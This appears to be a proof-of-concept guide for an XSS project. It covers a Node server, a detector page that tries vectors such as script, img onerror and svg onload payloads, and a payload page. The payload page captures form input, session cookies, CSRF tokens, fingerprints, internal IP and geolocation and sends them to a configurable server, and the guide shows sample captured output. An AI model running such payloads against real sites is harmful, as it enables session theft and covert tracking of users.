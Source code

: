 Proof of Concept (PoC) Guide
Step 1: Setting Up the Environment

Clone the Repository:

    git clone <repository-url>
    cd xss-poc

Install Dependencies:

    npm install express body-parser

Configure the Host:

    Open server.js, xss_payload.html, and xss_detector.html in a text editor.
    Change the host variable to your own website or IP address.

Example:

    const host = 'your-website.com'; // Change this to your own website

Step 2: Running the Server

Start the Server:

    node server.js

You should see a message indicating that the server is running:

    Server running at http://your-website.com:3000

Step 3: Using the XSS Detector

    Open the XSS Detector:
        Open xss_detector.html in a web browser.

    Enter the URL to Test:
        In the input field, enter the URL of the website you want to test for XSS vulnerabilities.
        Click the "Test for XSS" button.

    Observe the Results:
        The script will test the URL with various XSS vectors and display the results on the page.
        If a potential XSS vulnerability is found, it will be indicated in the results.

Step 4: Using the XSS Payload

 Open the XSS Payload:
        Open xss_payload.html in a web browser.

 Interact with the Form:
        Fill out the login form with some sample data.
        Observe the browser's console and the server's terminal for captured data.

 Analyze the Captured Data:
        The payload will capture various types of data, including user agent, screen resolution, plugins, cookies, and more.
        This data will be sent to the server and logged in the terminal.

Example Outputs
Server Terminal Output

When you interact with the form in xss_payload.html, you should see output in the server terminal similar to this:

    Captured Headers: {
      'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
      'content-type': 'application/json',
      'accept': '*/*',
      'origin': 'http://your-website.com:3000',
      'referer': 'http://your-website.com:3000/xss_payload.html',
      'accept-encoding': 'gzip, deflate',
      'accept-language': 'en-US,en;q=0.9',
      'connection': 'close'
    }
    POST Body: {
      t: 'input',
      v: 'testuser',
      fp: {
    ua: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
    lang: 'en-US',
    screen: '1920x1080',
    plugins: ['Chrome PDF Viewer', 'Shockwave Flash', ...],
    cookies: 'sessionid=abc123; csrftoken=xyz456'
      },
      ts: '2023-10-01T12:34:56.789Z',
      canvasFingerprint: 'data:image/png;base64,...',
      internalIP: '192.168.1.1',
      location: { latitude: 40.7128, longitude: -74.0060 }
    }

XSS Detector Results

When you test a URL with xss_detector.html, you should see results similar to this:

    Testing for XSS vulnerabilities...
    Potential XSS vulnerability found with vector: <script>alert("XSS")</script>
    No XSS vulnerability found with vector: <img src="x" onerror="alert('XSS')">
    Potential XSS vulnerability found with vector: <svg/onload=alert("XSS")>
    No XSS vulnerability found with vector: <body onload=alert("XSS")>
    ...

Conclusion

This PoC demonstrates how to set up and use the XSS detection and payload scripts. By following the steps outlined above, you can test for XSS vulnerabilities and analyze the captured data. Always ensure you have permission to test for vulnerabilities on a website.
